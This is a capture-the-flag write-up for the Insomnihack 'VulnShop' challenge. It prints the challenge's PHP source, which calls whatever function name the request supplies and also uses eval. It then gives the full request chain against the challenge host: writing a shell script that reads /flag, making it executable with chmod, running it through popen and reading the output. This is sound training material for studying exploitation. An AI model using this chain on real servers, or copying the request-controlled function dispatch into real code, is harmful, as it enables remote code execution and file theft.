




# Getting Started:

We're given a link to the VulnShop webpage, which contains links to the source code of the page, as well as php configuration details about the server.



Here is the given source code:
```php
<?php if(isset($_GET['hl'])){ highlight_file(__FILE__); exit; } 
    error_reporting(0); session_start();  
    // Anti XSS filter 
    $_REQUEST = array_map("strip_tags", $_REQUEST); 
    // For later, when we will store infos about visitors. 
    chdir("tmp"); 
?> 
<!DOCTYPE html> 
<html> 
    <head> 
        <title>Work in progress...</title> 
        <meta charset="utf-8" /> 
        <meta http-equiv="content-type" content="text/html; charset=utf-8" /> 
        <style> 
            body { 
                background-color: #aaa; 
                color:#fff; 
            } 
             
            .page { 
                width: 50%; 
                margin: 0 auto; 
                margin-top: 75px; 
            } 
             
             
            .menu ul li { 
                display:inline-block; 
                vertical-align:top; 
                margin-right: 30px; 
                 
            } 
        </style> 
    </head> 
    <body> 
        <div class="page"> 
            <div class="menu"> 
                <ul> 
                    <li><a href="?page=default">Home</a></li> 
                    <li><a href="?page=introduction">Introduction</a></li> 
                    <li><a href="?page=privacy">Privacy</a></li> 
                    <li><a href="?page=contactus">Contact</a></li> 
                </ul> 
            </div> 
             
            <div class="content"> 
                <?php 
                        switch($_GET['page']) { 
                            case 'default': 
                            default: 
                                echo "<p>Welcome to our website about infosec. It's still under construction, but you can begin to browse some pages!</p>"; 
                                break; 
                            case 'introduction': 
                                echo "<p>Our website will introduce some new vulnerabilities. Let's check it out later!</p>"; 
                                break; 
                            case 'privacy': 
                                echo "<p>This website is unbreakable, so don't worry when contacting us about some new vulnerabilities!</p>"; 
                                break; 
                            case 'contactus': 
                                echo "<p>You can't contact us for the moment, but it will be available later.</p>"; 
                                $_SESSION['challenge'] = rand(100000,999999); 
                                break; 
                            case 'captcha': 
                                if(isset($_SESSION['challenge'])) echo $_SESSION['challenge']; 
                                // Will make an image later 
                touch($_SESSION['challenge']); 
                                break; 
                            case 'captcha-verify': 
                // verification functions take a file for later, when we'll provide more way of verification 
                                function verifyFromString($file, $response) { 
                                    if($_SESSION['challenge'] === $response) return true; 
                                    else return false; 
                                } 
                                 
                                // Captcha from math op 
                                function verifyFromMath($file, $response) { 
                                    if(eval("return ".$_SESSION['challenge']." ;") === $response) return true; 
                                    else return false; 
                                } 
                                if(isset($_REQUEST['answer']) && isset($_REQUEST['method']) && function_exists($_REQUEST['method'])){ 
                                    $_REQUEST['method']("./".$_SESSION['challenge'], $_REQUEST['answer']); 
                                } 
                                break; 

                        } 
                ?> 
            </div> 
        </div> 
        <p><a href="/?hl">View code source of the file, to be sure we're secure!</a></p> 
        <p><a href="/phpinfo.php">Show our configurations</a></p> 
    </body> 
</html> 
```

From this code, we see that the server will generate a new random number and set our `challenge` variable every time we navigate to `/contactus`. This challenge is also stored as a file, and is used in later requests to `/captcha` and `/captcha-verify`.

In the handler for `/captcha-verify`, there's a line that allows us to call arbitrary functions, with the random number filename as the first parameter, and our input as the second parameter.
From this, it seems like a good way to solve the challenge would be to try to write some code to the file using this vulnerable function, use it again to execute the code that we wrote, and then use it again to read the output of our code.

# The Exploit:

Here is the script we will execute on the server (this appends the contents of `/flag` to the end of the currently running script):
```bash
#!/bin/sh
cat /flag >> "./${0##*/}";
```

We can only use functions that follow the format: `func(filename, input)`, where we can't control the filename (since it's randomly generated, and we can't edit it), but can control the input.

We also cannot use any of the functions listed in the `disable_functions` section of the server config (ie, most of the functions that would allow us to execute the code). Luckily, the server still allows us to use popen to execute files.



## Actual commands used:
We write the script to the file with file_put_contents(filename, our_script).

We then use chmod(filename, "511") to make it executable. PHP casts our string input to a decimal integer, and decimal 511 = octal 0777, which gives read/write/execute permissions to everyone on the server.

We run the new file with popen(filename, "r")

We read the output with highlight_file(filename, "")

Here are the actual requests made to exploit the server:

## Get a randomly generated challenge:
`http://vulnshop.teaser.insomnihack.ch/?page=contactus`

## Write the script to the file:
`http://vulnshop.teaser.insomnihack.ch/?page=captcha-verify&method=file_put_contents&answer=%23!%2Fbin%2Fsh%0Acat%20%2Fflag%20%3E%3E%20%22.%2F%24%7B0%23%23*%2F%7D%22%3B`

## Turn it executable:
`http://vulnshop.teaser.insomnihack.ch/?page=captcha-verify&method=chmod&answer=511`

## Run the script:
`http://vulnshop.teaser.insomnihack.ch/?page=captcha-verify&method=popen&answer=r`

## Read the output (which is now appended to the end of the script we wrote):
`http://vulnshop.teaser.insomnihack.ch/?page=captcha-verify&method=highlight_file&answer=`



And now we get the flag: `INS{4rb1tr4ry_func_c4ll_is_n0t_s0_fun}`

